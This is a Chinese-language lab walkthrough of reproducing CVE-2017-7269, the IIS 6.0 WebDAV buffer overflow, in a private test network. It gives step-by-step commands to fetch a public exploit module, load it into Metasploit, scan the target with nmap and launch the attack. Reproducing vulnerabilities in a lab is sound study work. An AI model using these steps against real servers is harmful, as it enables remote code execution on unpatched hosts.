 ```yaml
---
title: "（CVE-2017-7269）IIS 6.0开启Webdav 缓存区溢出漏洞"
id: zhfly2967
---
```


# （CVE-2017-7269）IIS 6.0开启Webdav 缓存区溢出漏洞

## 一、漏洞简介

IIS 6.0开启Webdav服务的服务器被爆存在缓存区溢出漏洞导致远程代码随意执行，目前针对 Windows Server 2003 R2 可以稳定利用。

## 二、漏洞影响

## 三、复现过程

### 环境搭建

目标主机：Windows Server 2003 R2
镜像下载：种子文件用迅雷下载:

```
ed2k://|file|cn_win_srv_2003_r2_enterprise_with_sp2_vl_cd1_X13-46432.iso|637917184|284DC0E76945125035B9208B9199E465|/ 
```

IP：192.168.1.104

A.安装IIS6.0服务：

![image](../img/0108404ea834c03f873cfbda3587634c.png)

B.打开WebDAV服务拓展：

![image](../img/8a19db447229f35b439d94e7e03ae4cb.png)

攻击机：kali Linux
镜像下载：https://www.kali.org/downloads/
IP:192.168.1.106

### 配置攻击套件

--首先我们要下载EXP文件，输入：

> git clone https://github.com/ianxtianxt/cve-2017-7269 //下载EXp

> ls //查看当前目录下的文件

![image](../img/81f2e14fa555fe3dc77258792f8de668.png)

--然后我们需要复制EXP到msf框架中#注意复制时，是下划线”_”不要写成cve-2017-7269.rb#，在目录下重命名这个文件为cve_2017_7269.rb，输入：

> cp cve_2017_7269.rb /usr/share/metasploit-framework/modules/exploits/windows/iis/ //复制EXP到相应目录

> cd /usr/share/metasploit-framework/modules/exploits/windows/iis/ //进入目录

> ls //查看当前目录下的文件

![image](../img/ddb2840061c6b42d3a9abe04a8302fad.png)

![image](../img/d64dc9b0c46cb8efe5082072432401ef.png)

--我们使用nmap扫描一下靶机的端口情况，输入：

> nmap 192.168.1.104 //扫描192.168.1.104的端口

![image](../img/203af2d8ee4490d4036f36a387c5dac2.png)

可以看到我们要攻击的80端口已经开启#

### 利用msf开始攻击

![image](../img/97de8eb0bb913a1a0ed37c7ffdff69dc.png)

--然后我们要使用刚才复制进去的EXP套件
输入：

```
msf5 > use exploit/windows/iis/cve_2017_7269 //使用此套件 
```

```
msf5 > show options //查看需要的配置 
```

发现只需要配置RHOSTS(目标IP)，最好把RPORT(目标端口)也配置下

![image](../img/b1739cc3ebdd8a676b9015dd9cf019b9.png)

```
msf5 > set rhosts 192.168.1.104 // 设置目标的IP
msf5 > set rport 80 //设置目标端口 
```

![image](../img/22762da2909b88d3b1a855a7c4646f63.png)

```
msf5 > exploit 
```

![image](../img/57673f4b1b0c03fed233531b3d6680cc.png)